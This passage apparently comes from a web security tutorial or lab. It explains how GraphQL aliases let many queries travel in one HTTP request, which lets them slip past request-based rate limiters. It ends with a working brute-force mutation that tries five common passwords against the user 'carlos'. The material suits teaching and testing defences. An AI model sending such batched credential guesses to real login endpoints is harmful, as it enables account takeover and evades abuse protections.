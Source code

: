 ```graphql
#Response to query

{
    "data": {
        "product1": {
            "id": 1,
            "name": "Juice Extractor"
         },
        "product2": {
            "id": 2,
            "name": "Fruit Overlays"
        }
    }
}
```

Many endpoints will have some sort of rate limiter in place to prevent brute force attacks. Some rate limiters work based on the number of HTTP requests received rather than the number of operations performed on the endpoint. Because aliases effectively enable you to send multiple queries in a single HTTP message, they can bypass this restriction.

The simplified example below shows a series of aliased queries checking whether store discount codes are valid. This operation could potentially bypass rate limiting as it is a single HTTP request, even though it could potentially be used to check a vast number of discount codes at once:

```graphql
#Request with aliased queries

query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

**Hence, we can try to bypass rate limiting via aliases:**
```graphql
mutation login {
    login(input:{username:"carlos",password:"123456"}) {
        token
        success
    }
    login2:login(input:{username:"carlos",password:"password"}) {
        token
        success
    }
    login3:login(input:{username:"carlos",password:"12345678"}) {
        token
        success
    }
    login4:login(input:{username:"carlos",password:"qwerty"}) {
        token
        success
    }
    login5:login(input:{username:"carlos",password:"123456789"}) {
        token
        success
    }
}
```